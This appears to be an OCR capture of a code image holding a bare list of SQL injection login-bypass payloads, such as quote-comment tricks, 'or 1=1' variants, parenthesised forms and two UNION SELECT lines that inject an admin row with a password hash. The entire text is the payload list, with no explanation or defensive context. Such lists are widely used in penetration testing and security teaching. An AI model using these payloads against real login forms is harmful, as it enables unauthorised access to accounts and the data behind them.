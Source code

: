 ```sql
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
